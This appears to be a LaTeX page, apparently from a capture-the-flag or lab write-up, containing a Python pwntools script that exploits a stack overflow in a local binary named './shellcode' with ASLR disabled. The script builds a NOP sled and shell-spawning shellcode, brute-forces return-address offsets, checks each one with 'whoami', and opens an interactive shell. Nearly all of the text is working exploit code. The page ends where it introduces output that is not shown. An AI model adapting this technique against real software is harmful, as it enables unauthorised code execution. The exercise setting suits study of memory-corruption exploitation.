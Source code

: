 \documentclass{article}
\begin{document}
Below is an implementation of the exploit described above.
\begin{lstlisting}
#!/usr/bin/python
from pwn import *
import sys

context.arch   = "amd64"
debug_buf_addr = 0x7fffffffde88
guessing_range = 200

def payload(offset):
    return sled + shellcode + p64(debug_buf_addr + offset)

shellcode = asm("add rsp, 0x38") + asm(shellcraft.sh())
sled = asm("nop") * (80 - len(shellcode))

# use the specified offset if provided
if len(sys.argv) > 1:
    p = process("./shellcode", aslr=False)
    p.sendline(payload(int(sys.argv[1])))
    p.interactive()
    exit(0)

# guess several offsets and store the ones that work
working_offsets = []
for offset in range(-guessing_range, guessing_range, len(sled) / 2):
    log.info("Trying offset {}".format(offset))
    p = process("./shellcode", aslr=False)
    p.sendline(payload(offset))
    p.readuntil("action.\n")

    # trying sending a shell command and checking the response
    try:
        p.sendline("whoami")
        if p.recv(timeout=0.1) != "":
            log.success("Offset {} works!!!".format(offset))
            working_offsets.append(offset)
    except EOFError:
        pass

if working_offsets:
    # spawn a shell using the average working offset
    avg_offset = sum(working_offsets) / len(working_offsets)
    log.success("Spawning shell with offset {}".format(avg_offset))
    shell = process("./shellcode", aslr=False)
    shell.sendline(payload(avg_offset))
    shell.interactive()
else:
    log.failure("No working offsets found")
\end{lstlisting}

This exploit gives the following output when run:
\end{document}
